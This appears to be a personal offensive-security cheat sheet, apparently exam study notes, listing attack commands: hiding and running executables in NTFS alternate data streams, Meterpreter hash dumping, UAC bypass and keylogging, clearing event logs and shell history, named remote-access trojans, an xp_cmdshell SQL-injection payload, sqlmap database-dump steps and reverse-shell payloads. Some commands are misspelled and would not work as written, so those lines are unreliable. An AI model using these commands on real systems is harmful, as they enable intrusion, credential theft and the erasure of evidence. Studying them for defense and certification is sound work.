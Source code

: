 - Hide file NTF
	. type foo.txt > bar.exe:foo.txt
	. del foo.txt
	. mklink exploit.exe bar.exe:foo.txt
	. exploit.exe and will run foo.txt although it will not be shown in dir since deleted


encrypt file: CryptoForge

MeterPreter: run vnc (see client's window on screen)
run post/windows/gather/smart_hashdump
-winPrevEsc use exploit/windows/local/bypassuac_fodhelpfer
-Keylogger: keyscan_start, keyscan_dump

Stegnography: 
-Text
snow -C -m "<msg>" -p "<pass>" <file to be added as input> <final output file>
snow -C -p "<pass>" <file to decrypt>
-Image
OpenStego, QuickStego

Covert_TCP: Secret message Transmission by replacing parts of header, one character at a time per packet

- Auditpol /clear /y: clear logging policies
- wevutil el(enumLog). OR wevutil cl system: clear logs
- history -c, OR shred ~/.bash_history: clear command history. export HISTSIZE=0: setting history size

/* Malware */
- nJRAT (auto connect even after restart)
- ProRAT (attach to a file and then establish connection)
- Theef RAT
- JPS Virus Maker
/*--*/

/* Malware Analysis */
- BinText: extracts strings
- dependency walker
- IDA
- OllyDbg
VulnScanner: Nessus, Nikto, Vega, Acunetix, N-Stalker

WPScan: wpscan -u http://<ip> --enumerate vp(vuln plugins)

Spawn shell using sql Injection: exec master..xp_cmdshell '<command>'; -- -



sqlmap: 
1.sqlmap -u <url> --cookie=""(only if you are using sessioned connection) --db
2.sqlmap -u <url> --cookie=""(only if you are using sessioned connection) -D <dbname> --tables
3. sqlmap -u <url> --cookie=""(only if you are using sessioned connection) -D <dbname> -T <tableName> --columns/--dump

reverse shell:
1. windows: windows/meterpreter/reverse_tcp
1. Linux: linux/x86/shell/reverse_tcp
Metasploit meterpreter shell
multi/handler: attach win/linux payload
